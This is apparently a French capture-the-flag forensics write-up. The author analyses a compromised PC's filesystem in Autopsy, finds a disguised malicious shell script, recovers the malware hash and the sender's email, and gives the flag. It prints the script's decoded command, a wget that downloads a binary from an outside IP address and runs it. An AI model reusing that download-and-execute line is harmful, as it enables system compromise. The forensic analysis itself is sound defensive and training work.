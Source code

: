 ![Desc](images/desc.png)

# Writeup

Dans ce challenge, on nous fournit une copie du filesystem du PC infecté que l'on peut ouvrir avec Autopsy :

![fs](images/fs.png)

Il est indiqué que le groupe d'attaquants a utilisé le Festival de Cannes pour compromettre l'entreprise, en cherchant dans les dossiers, on trouve un shell script `tirage_aux_sorts.sh` dans le fichier de téléchargement de l'utilisateur **cesar** qui parle du Festival.

Nous pouvons extraire pour analyse plus approfondi :

![shellscript](images/shellscript.png)

En ouvrant ce fichier dans Visual Studio Code, on se rend compte qu'il fait 1000 lignes, bizarre pour un script qui n'est censé en faire qu'une trentaine ^^ :

![script](images/script.png)

![malcommand](images/malcommand.png)


En effet ce script est malveillant, voici la commande décodée qu'il éxécute :

```
wget -q http://57.128.85.25:50098/_ -O /tmp/._ | bash && chmod +x /tmp/._ && /tmp/._
```

On inspecte donc le dossier /tmp pour voir si le fichier `._` est présent :

![tmp](images/tmpfolder.png)

L'éxécutable est présent ainsi que par déduction son fichier de config, `config.bin`

On recupère le hash du malware :

```
[Jun 30, 2025 - 03:08:20 (CEST)] exegol-Shutlock tmp # sha256sum ._
66640c14f898c78a99757ab4460c635476dfeb9b3b65e8a57fb29202eefb9423  ._
[Jun 30, 2025 - 03:11:11 (CEST)] exegol-Shutlock tmp #
```

Il ne nous manque plus qu'à trouver l'email de l'attaquant, celui qui lui a envoyé le fichier `tirage_aux_sorts.sh`.

Grâce à Autopsy, un outil gratuit et formidable, on trouve l'origine de celui ci :

![mail](images/mail.png)

Ce fichier provient d'un spam de `star_wars_official@proton.me`

**Flag format :**

`SHLK{bc5945feb8bd26203ebfafea5ce1878bb2e32cb8fb50ab7ae395cfb1e1aaaef1:mail@domain.tld:/home/test/.dossier/fichier.xyz}`

**Flag**

`SHLK{66640c14f898c78a99757ab4460c635476dfeb9b3b65e8a57fb29202eefb9423:star_wars_official@proton.me:/tmp/config.bin}`